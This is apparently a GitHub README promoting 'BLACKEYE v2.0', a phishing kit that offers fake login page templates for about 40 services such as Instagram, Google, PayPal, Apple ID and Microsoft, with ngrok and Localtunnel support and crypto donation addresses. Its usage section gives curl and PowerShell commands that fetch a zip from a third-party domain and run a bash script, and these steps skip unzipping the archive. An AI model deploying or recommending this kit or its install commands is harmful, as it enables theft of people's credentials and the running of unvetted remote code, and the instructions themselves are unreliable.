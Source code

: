 ## BLACKEYE v2.0 (Big update, in a month 12:01:2024 | New: bank template, and update afterwards, Add localhost, and more)
##### The tool is completely free now 

-----------------------------------------------------------------------------------------------------------------------------
![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bkev3.png)

12:01:2024 Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/scr2.png)

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/bgscr.png)

### UPDATES :
##### UPDATES_TMP websites :          

          [01] Instagram      [17] DropBox        [33] eBay               
          [02] Facebook       [18] Line           [34] Amazon         
          [03] Snapchat       [19] Shopify        [35] iCloud          
          [04] Twitter        [20] Messenger      [36] Spotify          
          [05] Github         [21] GitLab         [37] Netflix          
          [06] Google         [22] Twitch         [38] Reddit         
          [07] Origin         [23] MySpace        [39] StackOverflow         
          [08] Yahoo          [24] Badoo          [40] Custom         
          [09] Linkedin       [25] VK                      
          [10] Protonmail     [26] Yandex                  
          [11] Wordpress      [27] devianART               
          [12] Microsoft      [28] Wi-Fi                   
          [13] IGFollowers    [29] PayPal                  
          [14] Pinterest      [30] Steam                                
          [15] Apple ID       [31] Tiktok      
          
##### Add:  Localtunnel
##### Update: Ngrok 
###   Contact me on Instagram : @EricksonHolding or on responded.erickson.elite

-----------------------------------------------------------------------------------------------------------------------------
### Coded/Upgraded by: @EricksonAtHome (https://github.com/EricksonAtHome/blackeye)

#### Credits (Copyright)
#### Phishing Pages generated by An0nUD4Y (https://github.com/An0nUD4Y):

#### Description
BLACKEYE is an upgrade from original ShellPhish Tool (https://shellphish.net) by thelinuxchoice under GNU LICENSE. It is the most complete Phishing Tool,  with 32 templates +1 customizable

## Legal disclaimer:
Usage of BlackEye for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program. Only use for educational purposes.

### Usage:
```
curl -O http://dsvr.blackeye.cloud/alld/blackeye.zip
cd blackeye
bash blackeye.sh
```
### Usage PowerShell:
```
Invoke-WebRequest -Uri http://dsvr.blackeye.cloud/alld/blackeye.zip -OutFile blackeye.zip
cd blackeye
bash blackeye.sh
```

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/hiws.png)

12:01:2024 Preview Update

![alt text](https://raw.githubusercontent.com/EricksonAtHome/blackeye/main/img/scr22.png)

### Donate! @EricksonHolding
Donate And Support:
-----------------------------------------------------------------------------------------------------------------------------
BTC: 3EUgv8me3wDLLQ5rPRGKfdkkoXD4fozLHu
-----------------------------------------------------------------------------------------------------------------------------
LTC: MPgfYyVWqnUHFPhFRjETAAgfMHgKdaEFP1
-----------------------------------------------------------------------------------------------------------------------------
